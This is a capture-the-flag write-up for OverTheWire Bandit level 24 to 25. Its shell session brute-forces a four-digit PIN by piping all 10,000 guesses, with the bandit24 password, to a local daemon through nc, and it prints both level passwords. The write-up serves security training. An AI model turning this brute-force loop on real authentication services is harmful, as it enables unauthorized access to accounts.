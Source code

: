 ```yaml
---
title: OverTheWire Bandit Level 24 - 25
description: OverTheWire Bandit Level 24 - 25 challenge
date: 2022-07-29T07:00:00
tags: [OverTheWire, Bandit, Linux, shell, networking]
---
```

# Prompt
> A daemon is listening on port 30002 and will give you the password for `bandit25` if given the password for `bandit24` and a secret numeric 4-digit PIN code. There is no way to retrieve the PIN code except by going through all of the 10000 combinations, called brute-forcing.

# Solution
```sh
$ ssh bandit24@bandit.labs.overthewire.org -p 2220
bandit24@bandit.labs.overthewire.org password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
bandit24@bandit:~$ cd $(mktemp -d)
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ for i in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> bandit24.log; done
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ cat bandit24.log | nc localhost 30002 > bandit25.log
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ grep -v "Wrong!" bandit25.log
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

# References
* MayADevBe. (2022, May 30). OverTheWire Bandit Level 24 - 25. MayADevBe. <https://mayadevbe.me/posts/overthewire/bandit/level25/>
